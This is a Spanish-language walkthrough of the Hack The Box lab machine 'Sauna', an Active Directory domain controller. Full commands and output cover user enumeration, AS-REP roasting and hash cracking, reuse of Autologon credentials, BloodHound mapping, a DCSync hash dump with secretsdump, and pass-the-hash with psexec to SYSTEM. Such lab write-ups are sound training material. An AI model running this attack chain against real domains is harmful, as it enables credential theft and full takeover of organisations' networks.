








----

# 1. Ficha técnica


- **Máquina:** Sauna
- **Plataforma:** Hack The Box  
- **Dificultad:** Fácil
- **Autor:** egotisticalSW
- **Vectores y Técnicas Utilizadas:** AS-REP Roasting Attack ( acceso inicial), enumeración local mediante `winPEAS.exe` y explotación de credenciales expuestas en la configuración de _Autologon_ (movimiento lateral), reconocimiento y mapeo de relaciones de confianza mediante BloodHound (enumeración de Active Directory), exfiltración de hashes de Active Directory mediante un ataque de DCSync y compromiso total del sistema a través de _Pass-the-Hash_ (escalada de Privilegios).

----

# 2. Reconocimiento

## 2.1. Comprobación de conectividad

Como primer paso, se verificó la conectividad con el objetivo mediante el envío de cuatro paquetes ICMP.

**Comando ejecutado:**

```bash
ping -c 4 10.129.39.118
```

**Resultados obtenidos:**

```bash
PING 10.129.39.118 (10.129.39.118) 56(84) bytes of data.
64 bytes from 10.129.39.118: icmp_seq=1 ttl=127 time=182 ms
64 bytes from 10.129.39.118: icmp_seq=2 ttl=127 time=184 ms
64 bytes from 10.129.39.118: icmp_seq=3 ttl=127 time=184 ms
64 bytes from 10.129.39.118: icmp_seq=4 ttl=127 time=183 ms

--- 10.129.39.118 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 181.552/183.194/184.244/0.999 ms
```

**Conclusiones:**

- **TTL = 127:** Al estar próximo al valor por defecto de los sistemas Windows (128), se intuye que el equipo objetivo opera bajo este sistema operativo.
- **0% packet loss:** El éxito en la recepción de todos los paquetes confirma una conectividad estable y directa con el host.

---

## 2.2. Escaneo de puertos TCP

Posteriormente, se realizó un escaneo completo de los 65,535 puertos TCP utilizando la herramienta Nmap para identificar cuáles se encontraban activos.

**Comando ejecutado:**

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.39.118
```

**Resultados obtenidos:**

```plaintext
Nmap scan report for 10.129.39.118
Host is up (0.19s latency).
Not shown: 65515 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown
49717/tcp open  unknown
```

**Conclusiones:** La cantidad y el tipo de puertos abiertos exponen una superficie de ataque considerable, de la cual se derivan los siguientes puntos clave:

- **Confirmación de Sistema Operativo:** La presencia de servicios nativos como MSRPC (135), NetBIOS (139) y SMB (445) ratifica que el objetivo es un entorno Windows.
- **Identificación del Rol (Domain Controller):** La coexistencia de servicios críticos como Kerberos (88), LDAP (389/636) y ADWS (9389) evidencia que el host actúa como un Controlador de Dominio de Active Directory.

----

# 3. Enumeración

## 3.1. Enumeración de servicios

Se procedió a identificar las versiones específicas y a ejecutar los scripts de reconocimiento básicos de Nmap (`-sCV`) sobre los puertos abiertos detectados previamente.

**Comando ejecutado:**

```bash
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49677,49698,49717 -sCV -Pn -n 10.129.39.118
```

**Resultados obtenidos:**

```plaintext
Nmap scan report for 10.129.39.118
Host is up (0.46s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-11 01:59:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-07-11T02:00:46
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
```

**Conclusiones:**

- **Active Directory:** Se extrajo información del dominio (`EGOTISTICAL-BANK.LOCAL`) y el nombre del host (`SAUNA`). Además, se confirmó que la firma SMB está activa y es requerida, lo que mitiga ataques de tipo _SMB Relay_.
- **Servicio HTTP (Puerto 80):** El servidor corre un IIS 10.0 y aloja la web "Egotistical Bank". El título coincide con el nombre del dominio de Active Directory, lo que sugiere cierta vinculación entre ellos.
- **Servicio DNS (Puerto 53):** Al estar expuesto bajo el software _Simple DNS Plus_, abre la posibilidad de realizar ataques de transferencia de zona o enumeración de subdominios para mapear mejor el entorno.

----

## 3.2. Enumeración DNS

Se inició la enumeración del servicio DNS con el objetivo de identificar registros MX en el servidor.

**Comando ejecutado:**

```bash
dig @10.129.39.118 EGOTISTICAL-BANK.LOCAL mx
```

**Resultados obtenidos:**

```plaintext
; <<>> DiG 9.20.23-1~deb13u1-Debian <<>> @10.129.39.118 EGOTISTICAL-BANK.LOCAL mx
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22530
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;EGOTISTICAL-BANK.LOCAL.                IN      MX

;; AUTHORITY SECTION:
EGOTISTICAL-BANK.LOCAL. 3600    IN      SOA     sauna.EGOTISTICAL-BANK.LOCAL. hostmaster.EGOTISTICAL-BANK.LOCAL. 50 900 600 86400 3600

;; Query time: 185 msec
;; SERVER: 10.129.39.118#53(10.129.39.118) (UDP)
;; WHEN: Fri Jul 10 13:49:46 CST 2026
;; MSG SIZE  rcvd: 104
```

Posteriormente, se intentó realizar una transferencia de zona (AXFR) para volcar todos los registros del dominio.

**Comando ejecutado:**

```bash
dig @10.129.39.118 EGOTISTICAL-BANK.LOCAL axfr                    
```

**Resultados obtenidos:**

```plaintext
; <<>> DiG 9.20.23-1~deb13u1-Debian <<>> @10.129.39.118 EGOTISTICAL-BANK.LOCAL axfr
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

**Conclusiones:** A pesar de que la transferencia de zona fue rechazada por el servidor, la consulta inicial reveló datos de valor para las siguientes fases:

- **Validación del dominio:** Se confirma la resolución interna para `EGOTISTICAL-BANK.LOCAL`.
- **Estructura SOA (Start of Authority):** El registro SOA expone el FQDN del controlador de dominio (`sauna.EGOTISTICAL-BANK.LOCAL`) y la dirección de correo electrónico del administrador (`hostmaster@EGOTISTSTICAL-BANK.LOCAL`**.

**Nota:** Tras esto se agregó el dominio `EGOTISTICAL-BANK.LOCAL` al archivo: `/etc/hosts` de nuestro sistema atacante.

---

## 3.3. Enumeración web

Inicialmente se intentó recopilar información del servicio SMB mediante una sesión nula (*Null Session*) sin obtener resultados. Ante esto, se procedió con la enumeración del entorno web.


#### Análisis de los recursos identificados
Tras inspeccionar los directorios y archivos accesibles en el servidor, se hallaron los siguientes recursos:

* **/single.html:** Muestra el contenido de las publicaciones. Al analizar las secciones de los *posts*.
* **/index.html:** Página principal del sitio; ofrece una descripción general y una breve introducción sobre la temática de la web.
* **/about.html:** Contiene información detallada sobre los servicios que ofrece la organización y también se comparten los nombres del equipo (útil para enumerar posibles usuarios válidos).
* **/blog.html:** Alberga el listado de publicaciones disponibles. Al interactuar con cualquiera de ellas, el sitio redirige al recurso `/single.html`.
* **/contact.html:** Aloja un formulario de contacto. No obstante, al completar los campos y enviar la información, el servidor responde con un error `405 - HTTP verb used to access this page is not allowed`, lo que indica una restricción en los métodos HTTP aceptados por el formulario.

#### Lista de usuarios recopilados:

```plaintext
Fergus Smith
Shaun Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
```

----

## 3.4. Enumeración de usuarios válidos con Kerbrute 

Tras la inspección web, se aplicaron técnicas de fuerza bruta sobre directorios, recursos y subdominios sin obtener resultados adicionales. Debido a esto, se procedió con una enumeración básica del servicio LDAP utilizando el siguiente comando: 

```bash
ldapsearch -x -H ldap://10.129.39.118 -b "dc=EGOTISTICAL-BANK,dc=LOCAL"
```

A partir de esta consulta, se extrajo la siguiente entrada de interés:

```bash
# Hugo Smith, EGOTISTICAL-BANK.LOCAL
dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

### Creación de la lista de usuarios

El hallazgo de este nuevo nombre y apellido permitió complementar el listado previo. La lista consolidada de nombres de origen quedó estructurada de la siguiente manera:

```plaintext
Fergus Smith
Shaun Coins
Sophie Driver
Bowie Taylor
Hugo Bear
Steven Kerb
Hugo Smith
```

Posteriormente, se empleó la herramienta `username-anarchy` para generar múltiples variantes de nombres de usuario basadas en patrones comunes (por ejemplo: _fergus_, _fsmith_, _fergus.smith_, etc.), utilizando la siguiente sintaxis:

```bash
./username-anarchy --input-file user_list.txt --select-format first,flast,first.last,firstl > new_list.txt
```

#### Comprobación de usuarios válidos mediante Kerbrute

Con las variaciones almacenadas en el archivo `new_list.txt`, se utilizó `kerbrute` para identificar cuáles de estos usuarios eran válidos en el Active Directory mediante el proceso de _user enumeration_.

**Comando ejecutado:**

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.129.39.118 new_list.txt
```

**Resultados obtenidos:** El análisis identificó con éxito las siguientes cuentas válidas en el dominio:
- `fsmith`
- `hsmith`



----

## 3.5. Obtención de hashes mediante AS-REP Roasting 

Dado que en esta etapa de la auditoría no se disponía de credenciales válidas y solo se contaba con dos usuarios identificados, se optó por ejecutar un ataque de AS-REP Roasting. Para ello, se empleó la herramienta `GetNPUsers` de la suite Impacket:

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.129.39.118 -usersfile valid_users.txt -request
```

Como resultado, se obtuvo con éxito el hash del usuario `fsmith`, mientras que el usuario `hsmith` no presentaba la preautenticación de Kerberos deshabilitada: 

```plaintext
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:f3613e470f72ddf0119c5475704d71e6$a8ad1871b76177325be81c59fc87e619f1316d9a1aedfcfe7c5f8353bd18f4255330fc95b3363ef2f8c861d7e1655db0f4165affc5f3a2344081b70f4c117bfd37a9d6584c066b7dbf2561e540d6577f0e723834e29c058ac0ce09e72760812ead68e01b6a49a0a2792dc87ddb27a8aaf6a59c742db88fc7a86ab92d53c520f22c14cad4cfb6fb640af34cd0cbb7aa444e5653e792c83ae0eb4b06cf760b71afe4d3a80746bf882bc1d41f2abaf2776b8787484b83c2deb85fc86cecdcd17388cfb532bdd2b5460f5770f787a238d138e6504b05af87e1b666f60737cdf5a34f7e647b483280162169b2ff75c7acdb7f989480e693a7c784393eddd18b01bd10
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Descifrado del hash con Hashcat

Posteriormente, se realizó un ataque de fuerza bruta mediante Hashcat utilizando el diccionario `rockyou.txt` para descifrar el hash extraído:

```bash
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```

### Conclusión de la fase

El proceso concluyó con la obtención de las credenciales de acceso para el usuario `fsmith`:

- `fsmith:Thestrokes23`



---

# 4. Explotación

## 4.1. Acceso inicial

Tras obtener las credenciales del usuario `fsmith`, se procedió a verificar su validez en el servicio SMB utilizando la herramienta `NetExec` (`nxc`):

```bash
nxc smb 10.129.39.118 -u 'fsmith' -p 'Thestrokes23'
```

**Resultado:**

```plaintext
SMB 10.129.39.118 445 SAUNA [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23
```

Dado que el servicio WinRM se encontraba activo en el objetivo, se evaluó si el usuario disponía de privilegios de acceso al sistema a través de este protocolo:

```bash
nxc winrm 10.129.39.118 -u 'fsmith' -p 'Thestrokes23'
```

**Resultado:**

```plaintext
WINRM 10.129.39.118 5985 SAUNA [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```

### Conclusión de la fase

La etiqueta `(Pwn3d!)` otorgada por NetExec confirmó que las credenciales disponen de privilegios administrativos locales o de acceso directo sobre el servicio WinRM. Con base en esto, se procedió a establecer una sesión interactiva en el sistema mediante la herramienta `evil-winrm`:

```bash
evil-winrm -i 10.129.39.118 -u 'fsmith' -p 'Thestrokes23'
```

> **Nota:** Se ha consolidado el **Acceso Inicial** al host bajo el contexto del usuario `fsmith`.



---

# 5. Post Explotación

## 5.1. Enumeración interna desde el usuario comprometido

Se inició con una enumeración interna del sistema, identificando los siguientes usuarios válidos:

```plaintext
User accounts for \\

-------------------------------------------------------------------------------
Administrator            FSmith                   Guest
HSmith                   krbtgt                   svc_loanmgr
```

Al no detectar privilegios críticos iniciales en el usuario comprometido, se procedió a utilizar la herramienta **winPEAS.exe** para automatizar la búsqueda de vectores de escalada de privilegios.

### Transferencia de winPEAS

Para transferir el ejecutable al objetivo, se montó un servidor SMB local utilizando la suite de **Impacket**.

1. **Creación de la carpeta compartida en la máquina de ataque:**

```bash
sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

2. **Conexión, copia y ejecución en la máquina víctima:**

```powershell
net use \\10.10.17.32\smbFolder
copy \\10.10.17.32\smbFolder\winPEASx64.exe winpeas.exe
.\winpeas.exe
```

### Resultados de la Enumeración

El análisis de **winPEAS** expuso la siguiente credencial expuesta en la configuración de inicio de sesión automático (_AutoLogon_):

- **Dominio:** `EGOTISTICALBANK`
- **Usuario:** `svc_loanmanager`
- **Contraseña:** `Moneymakestheworldgoround!`

```plaintext
Some AutoLogon credentials were found
  DefaultDomainName         :  EGOTISTICALBANK
  DefaultUserName           :  EGOTISTICALBANK\svc_loanmanager
  DefaultPassword               :  Moneymakestheworldgoround!
```

----

## 5.2. Movimiento lateral

Tras obtener las credenciales `svc_loanmanager:Moneymakestheworldgoround!` y detectar el mismo nombre pero abreviado en el sistema, se validó la contraseña utilizando **NetExec**.

**Comandos ejecutados:**

```bash
nxc smb 10.129.39.118 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
nxc winrm 10.129.39.118 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```

**Resultados:** La aparición de la etiqueta `(Pwn3d!)` en el servicio WinRM confirmó que las credenciales eran válidas y que el usuario contaba con privilegios de administración remota en ese servicio, lo que permitió proceder con la migración de contexto.

```plaintext
WINRM  10.129.39.118  5985  SAUNA  [*] Windows 10 / Server 2019 Build 17763 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) 
WINRM  10.129.39.118  5985  SAUNA  [+] EGOTISTICAL-BANK.LOCAL\svc_loanmgr:Moneymakestheworldgoround! (Pwn3d!)
```

#### Acceso mediante WinRM

Con la confirmación del acceso, se utilizó **evil-winrm** para establecer una sesión activa en el sistema bajo el contexto del usuario `svc_loanmgr`.

**Comando ejecutado:**

```bash
evil-winrm -i 10.129.39.118 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```



---

## 5.3. Enumeración de Active Directory mediante BloodHound

Para mapear de forma exhaustiva el entorno de Active Directory, se ejecutó **bloodhound-python** utilizando las credenciales del usuario `svc_loanmgr`. El objetivo de esta fase fue recopilar información crítica del dominio y exportarla en archivos de formato `.json` para su posterior análisis.

**Comando ejecutado:**

```bash
bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.129.39.118 -c All
```

### Importación de resultados en BloodHound

La visualización y análisis de los datos recolectados se realizó a través de **BloodHound-Legacy**, requiriendo la inicialización previa de la base de datos **Neo4j**.

**Paso 1: Inicialización del servicio Neo4j**

```bash
sudo neo4j console
```

**Paso 2: Ejecución de BloodHound-Legacy** Debido a incompatibilidades gráficas y de entorno en sistemas operativos modernos, la aplicación se inició forzando la desactivación del sandbox y del acelerador por hardware:

```bash
./BloodHound --no-sandbox --disable-gpu
```

Una vez iniciada la interfaz, se autenticó en la plataforma utilizando las credenciales correspondientes de Neo4j. Finalmente, se cargaron los archivos `.json` generados en el paso anterior mediante la opción **"Upload Data"** para procesar y graficar la estructura interna del dominio.



### Mapeo de Active Directory

Con los datos integrados en la herramienta, se procedió a identificar vectores de escalada de privilegios a partir del usuario comprometido. Para ello, se buscó el usuario comprometido; `svc_loanmgr` en la barra de búsqueda superior izquierda y, desde la pestaña **Analysis**, se ejecutó la consulta **"Find Shortest Paths to Domain Admins"** para trazar la ruta más directa hacia la administración del dominio.



**Resultado:** El análisis reveló que el usuario `svc_loanmgr` posee derechos explícitos de **DCSync** (`DS-Replication-Get-Changes` y `DS-Replication-Get-Changes-All`) asignados directamente sobre la raíz del dominio `EGOTISTICAL-BANK.LOCAL`.



Esta configuración permite a un atacante simular el comportamiento de un Controlador de Dominio y solicitar la replicación de credenciales. A través de este vector, es posible extraer los hashes de contraseña de todos los usuarios del entorno incluyendo la cuenta de los Administradores del Dominio y la cuenta crítica `krbtgt`, lo que deriva en el compromiso total y definitivo de la infraestructura.

-----

### 5.5. Extracción de hashes NTLM mediante ataque de DCSync

Aprovechando los privilegios identificados en la fase anterior, se utilizó la herramienta **secretsdump** (de la suite Impacket) para ejecutar un ataque de DCSync. Para extraer de forma remota la base de datos de credenciales de Active Directory.

**Comando ejecutado:**

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.129.39.118
```

**Resultados obtenidos:** Se recolectaron exitosamente los hashes NT y las claves Kerberos de todas las cuentas del dominio, destacando la obtención de las credenciales del Administrador principal y del servicio crítico `krbtgt`:

```plaintext
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::
SAUNA$:1000:aad3b435b51404eeaad3b435b51404ee:441c6f995161fdd2ed823a4ce39082f3:::
[*] Kerberos keys grabbed
[... claves Kerberos omitidas en el reporte por brevedad ...]
```

### Compromiso total del sistema (Ataque Pass-the-Hash)

Finalmente, para validar el control del entorno sin necesidad de crackear las contraseñas, se realizó un ataque de **Pass-the-Hash** empleando **psexec** (Impacket). Esto facilitó la autenticación directa utilizando el hash NTLM del usuario Administrador.

**Comando ejecutado:**

```bash
impacket-psexec EGOTISTICAL-BANK.LOCAL/administrator@10.129.39.118 -hashes 'aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e'
```

Como resultado de esta acción, se obtuvo una shell interactiva con los máximos privilegios del sistema (`NT AUTHORITY\SYSTEM`), consolidando de esta manera el compromiso total y absoluto de la infraestructura del dominio.



---